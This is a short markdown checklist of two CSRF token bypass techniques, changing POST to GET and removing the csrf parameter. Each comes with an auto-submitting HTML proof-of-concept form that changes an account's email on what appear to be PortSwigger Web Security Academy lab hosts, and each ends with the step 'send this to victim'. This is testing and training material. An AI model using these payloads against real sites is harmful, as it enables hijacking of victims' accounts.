 ### Bypass Method -1 : Change the request method `POST` → `GET`

```markdown
Test Case: Validation of CSRF token depends on request method

1. Interect with functionality and intercept the request.
2. Send this requets to repeater and right click change request method
3. Remove any csrf param and genrate csrf poc
4. Edit according to your preference,For example:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="GET" action="https://ac591fd21f4ab3d2807a1b1d0007000d.web-security-academy.net:443/email/change-email?email=natsu%40natsu.com">
		<input type="text" name="email" value="natsu@natsu.com">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

5. Done send this to victim.
```

### Bypass Method - 2: Remove csrf param from `POST` request.

```markdown
Test Case: Validation of CSRF token depends on token being present

1. Interect with functionality and intercept the request.
2. Send this requets to repeater.
3. Remove any csrf param and generate csrf poc
4. Edit according to your preference,For example:

<!DOCTYPE html>
<html>
  <!-- CSRF PoC - generated by Burp Suite i0 SecLab plugin -->
<body>
	<form method="POST" action="https://ac8a1fbd1e6d76ae806817f900d50032.web-security-academy.net:443/email/change-email">
		<input type="text" name="email" value="natsu@natsu.com">
	</form>
<script>
      document.forms[0].submit();
    </script>
</body>
</html>

5. Done send this to victim.
```
